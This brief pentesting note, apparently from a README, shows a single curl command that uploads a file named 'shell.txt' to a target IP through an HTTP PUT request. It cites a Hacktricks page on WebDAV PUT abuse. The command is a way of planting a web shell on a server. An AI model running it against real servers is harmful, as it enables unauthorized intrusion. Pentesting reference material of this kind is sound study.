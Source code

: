 # Manual

PUT request

`$ curl -T 'shell.txt' http[s]://<IP>`

---
## References

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)
